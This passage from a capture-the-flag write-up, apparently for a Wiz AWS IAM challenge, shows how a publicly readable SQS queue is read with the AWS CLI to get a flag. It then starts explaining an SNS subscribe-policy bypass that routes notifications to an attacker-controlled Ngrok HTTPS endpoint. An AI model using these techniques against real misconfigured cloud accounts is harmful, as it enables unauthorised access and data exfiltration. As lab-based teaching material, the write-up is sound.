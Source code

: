 ```json
```

Since we already know the queue’s identifiers (Region, Account ID, & Queue Name) from the above policy, we can use this to construct the queue URL and receive a message with `aws sqs receive-message`:

```bash
> aws sqs receive-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2
{
    "Messages": [
        {
            "MessageId": "4c994dfa-4989-4cbf-83d1-588dd720f924",
            "ReceiptHandle": "[...]",
            "MD5OfBody": "4cb94e2bb71dbd5de6372f7eaea5c3fd",
            "Body": "{\"URL\": \"https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html\", \"User-Agent\": \"Lynx/2.5329.3258dev.35046
libwww-FM/2.14 SSL-MM/1.4.3714\", \"IsAdmin\": true}"
        }
    ]
}
```

Including the Account ID from the ARN for this resource is important when constructing the `--queue-url` for SQS - unlike for S3, where bucket names are global and do not require the Account ID. *(This tripped me up for a bit!)* 

Accessing the URL that was exposed in the queue message above, the flag can now be fetched:

![challenge-2-flag.png](/assets/img/wiz-iam-challenge/challenge-2-flag.png)

## Insufficient SNS Validation (Challenge #3)

### Summary

Challenge #3 presented a trickier spin: subscribing to the Simple Notification Service (SNS). The IAM policy for this service allowed any Principal to subscribe to SNS, so long as the subscribed destination (email, URL, etc) ended in `*@tbic.wiz.io`… but no requirement to use email as a protocol! This allowed an HTTPS URL ending with the string `@tbic.wiz.io` to be approved for subsciption. By using Ngrok, a URL including this string could be registered to receive the flag.

### Details

The IAM policy for SNS identifies that any Principal may [Subscribe](https://docs.aws.amazon.com/cli/latest/reference/sns/subscribe.html), so long as `sns:Endpoint` ends in `@tbic.wiz.io`:

```json
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
```